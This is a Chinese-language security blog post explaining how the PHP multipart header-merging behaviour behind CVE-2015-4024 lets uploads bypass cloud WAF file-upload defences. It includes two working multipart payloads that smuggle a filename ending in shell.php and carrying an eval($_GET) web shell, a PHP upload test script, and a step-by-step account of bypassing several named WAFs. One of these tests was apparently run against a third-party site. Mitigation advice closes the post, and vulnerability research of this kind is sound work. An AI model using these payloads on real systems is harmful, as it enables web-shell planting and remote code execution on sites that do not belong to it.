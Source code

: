 ```yaml
---
title: PHP DOS漏洞的新利用：CVE-2015-4024 Reviewed
slug: CVE-2015-4024
date: 2016-09-24 13:20:39
categories:
 - Hacker
tags:
 - Hacker
---
```

# 1.     背景介绍
今天我们想从2015.04.03的一个PHP远程dos漏洞（CVE-2015-4024）说起。技术细节见如下链接，[https://bugs.php.net/bug.php?id=69364](https://bugs.php.net/bug.php?id=69364)。因为php解析body part的header时进行字符串拼接，而拼接过程重复拷贝字符导致DOS。事实上该漏洞还有其他非dos的利用价值，其中之一，就是绕过当前各种云WAF的文件上传防御策略。

目前国内外流行的云WAF厂商有如百度云加速，360网站卫士，加速乐，云盾等。因为PHP远程dos漏洞及PHP官方修复方案的特点，我们成功利用该漏洞绕过了当前主流WAF的文件上传防御，例如百度云加速、360网站卫士、知道创于加速乐、安全狗。

接下来，我们以PHP为例，详细解析我们的绕过方法。

# 2.     绕过WAF的原理

根据PHP DOS漏洞原理，在multipart_buffer_headers函数解析header对应value时，value值存在n行。每行的字符串以空白符开头或不存字符':'，都触发以下合并value的代码块。那么解析header的value就要执行(n-1)次合并value的代码块，从而导致DOS。

<!--more-->

```php
prev_len= strlen(prev_entry.value);

cur_len= strlen(line);

entry.value= emalloc(prev_len + cur_len + 1); //1次分片内存

memcpy(entry.value,prev_entry.value, prev_len); //1次拷贝

memcpy(entry.value+ prev_len, line, cur_len);   //1次拷贝

entry.value[cur_len+ prev_len] = '\0';

entry.key= estrdup(prev_entry.key);

zend_llist_remove_tail(header);//1次内存释放
```

而PHP官方修复方案，在进行合并时，避免重复拷贝，从而避免DOS。绕过WAF的关键在于，PHP multipart_buffer_headers函数解析header对应value时，value值存在多行。每行的字符串以空白符开头或不存字符':'，将进行合并。而WAF在解析文件上传的文件名时，没有考虑协议兼容，不进行多行合并，就可以被绕过。

根据原理构造绕过WAF文件上传防御的payload，WAF解析到的文件名为”test3.jpg”，而PHP解析到的文件名是”test3.jpg\nf/shell.php”，因为”/”是目录分隔符，上传的文件名变为shell.php。以下是绕过paylaod、测试脚本、paylaod进行文件上传的效果图。

## WAF绕过payload:

```
------WebKitFormBoundaryx7V4AhipWn8ig52y

Content-Disposition: form-data; name="file"; filename="test3.jpg\nsf/shell.php

Content-Type: application/octet-stream

<?php eval($_GET['c'])?>

------WebKitFormBoundaryx7V4AhipWn8ig52y

```

## 文件上传功能测试脚本: 

```php
<?php

         $name = $_FILES['file']['name'];

        echo $name;

        echo "\n";

        move_uploaded_file($_FILES['file']['tmp_name'] , '/usr/local/nginx/html/upload/'.$_FILES['file']['name']);

        echo "upload success! ".$_FILES['file']['name'];

        echo "\n";

        echo strlen($_FILES['file']['name']);

?>

```

Payload能够正常上传

![1](/images/uploads/466b3248413178756f767230665a3667794f51507349663461316a6a.jpg)

# 3.     绕过WAF实战

笔者通过搭建自己的测试站，接入360网站卫士和加速乐，验证绕过WAF文件上传防御的方法。

## 3.1 绕过360网站卫士

### 步骤1，验证网站已被360网站卫士防御，拦截了直接上传PHP文件的请求。

![2](/images/uploads/467645324233766f3432454a56323463415150376545777066497639.jpg)

### 步骤2：成功绕过360网站卫士，上传shell成功，文件是apo.php。在该请求中，有没有Content-Type不影响绕过。

![3](/images/uploads/4675344f3055694851483263534131506b5f6437495750446241646f.jpg)

## 3.2 绕过知道创宇加速乐

### 步骤一：验证网站被加速乐保护，拦截了直接上传PHP文件的请求。

![4](/images/uploads/4667426b36437846332d6458726c354858653353494441364a427849.jpg)

### 步骤二：成功绕过加速乐，上传shell，文件是syt.php。

![5](/images/uploads/46726f686e585341554e5047496f6661544968464d6e7251376f6f74.jpg)

## 3.3. 绕过百度云加速

百度云加速与CloudFlare，从百度匀加速拦截页面可以看出使用的是CloudFlare. 但是估计有本地化，百度云加速应该是百度和CloudFlare共同产物吧。测试百度没有搭建自己的测试环境，找了个接入了百度云加速的站进行测试。

### 步骤一：验证网站被百度云加速保护，拦截了直接上传PHP文件的请求。

![6](/images/uploads/467368394b376c45625255696f5656672d6b6d43314d675032733077.jpg)

### 步骤二：成功绕过云加速

同上

# 4.     扩展—更多的工作

## 4.1 分析filename其他字符的绕过

同理，我们发现除了双引号外，使用单引号也能绕过WAF的防御，并实现文件上传。


```
------WebKitFormBoundaryx7V4AhipWn8ig52y

Content-Disposition: form-data; name="file"; filename='test3.jpg\nsf/shell.php

Content-Type: application/octet-stream

<?php eval($_GET['c'])?>

------WebKitFormBoundaryx7V4AhipWn8ig52y
```

## 4.2 分析其他应用脚本语言

我们也发现jsp解析也有自己的特点，同时可被用于绕过WAF。暂时未测试asp,aspx,python等常用的WEB应用脚本语言。

# 5.     修复方案

## 5.1 修复方案一

解析文件上传请求时，如果发现请求不符合协议规范，则拒绝请求。可能会产生误拦截，需要评估误拦截的影响范围。

## 5.2 修复方案二

兼容php的文件解析方式，解析文件名时，以单引号或双引号开头，并且对应的单引号双引号闭合。

# 6.     总结

本文通过Review PHP远程dos漏洞(CVE-2015-4024)，并利用该特性绕过现有WAF的文件上传防御，成功上传shell。 更重要的价值，提供给我们一个绕过WAF的新思路，一种研究新方向：利用后端应用脚本与WAF行为的差异绕过WAF的防御。总的来说，一款优秀的WAF应该能够处理兼容WEB应用容器、标准协议、web服务器这间的差异。
